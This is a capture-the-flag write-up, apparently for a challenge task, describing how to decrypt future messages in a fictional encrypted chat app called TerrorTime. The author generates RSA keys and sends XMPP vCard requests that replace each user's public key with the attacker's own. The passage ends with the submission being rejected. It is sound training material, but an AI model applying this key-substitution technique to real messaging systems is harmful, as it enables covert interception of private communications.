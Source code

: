 # Task 6b - Future Message Decryption

## Prompt

Though we might be unable to decrypt messages sent and received in the past without a user's private key, it may still be possible to view future messages in the clear. For this task generate a new public/private key pair and make whatever changes are necessary such that all future messages sent/received within TerrorTime may be decrypted with this private key. Critically, you can not disrupt future legitimate conversations between users.

## Solution

In the first half of this task we were able to cover our tracks by deleting entries from vCards. Now we have to take the opposite approach and edit all of the vCards to include our Public Key Pair. First we need some keys though! `crypto/Keygen.java` is generating 2048 bit RSA keys so we will do the same.

```
$ openssl genrsa -out rsa.private 2046
$ openssl rsa -in rsa.private -out rsa.public -pubout -outform PEM
```

Now, our top-level organization leader only has three contacts, likely meaning three terrorist cells. If each terrortist cell only has two members like all of the cells we've seen so far, then that's a total of 10 users. We can login as all of Malia's contacts to work out the name, and if you look at the login traffic in Burp you can even see which group each terrortist belongs to.

![Group](images/group.png)

Doing this for all of the cell leaders reveals the following users:

```
* management
    * malia
    * aden
    * leila
    * savannah
    
* cell-0
    * jason
    * jazmin

* cell-1
    * isaac
    * georgia

* cell-2
    * ava
    * emmett
```

This doesn't seem too bad to just brute force, and a lot easier than making our own client to auth into each user and reset the vCard. So, logging into each user and sending the vCard reset request with only our Public Key should do the trick! The request looks like this:

```
<iq id='0maP3-360' type='set'><vCard xmlns='vcard-temp'><DESC>
-----BEGIN PUBLIC KEY-----
MIIBIjANBgkqhkiG9w0BAQEFAAOCAQ8AMIIBCgKCAQEA0Z9xykmNjTOY05dwyE34
xhduKMO3DEo2rL74zXrbMh9hxS89qteA5m9OAHPOXo9/YlF1YKwpnejkGgfC4Ozg
NyZoB5QrJ1Yis9Gb4GMK4fK/4P2PW99FaDUjtx3YYSEEkOyHj/QukgzfGtUw3vIt
ImO9VEqUKXdcQEgIUzhFIBQLF7f9WcqYUFGsdWVpX+gvDmio0XOpNJ93chFqvjkl
9LbXiWdxhrnN8MS26PKytKBZOZIIA3Qcmp5rAYinWGW1XeQB8BqaLD30Ujl4wT+Z
kGEzTbqmQyc7iWMuoI6RfLM5JernsvJ/PJXmOysjIBMqLOBn5hNCNgWc9CH3Xwcu
ZwIDAQAB
-----END PUBLIC KEY-----
</DESC></vCard></iq>
```

That was not fun, but after changing the vCard for all 10 users we should be able to read all future messages without interfering in legitimate conversations. Except that when I tried to submit my keys it said that future users wouldn't be able to read messages! That didn't make any sense to me because everytime a user logs in they add their keys to the vCard, allowing for conversation.
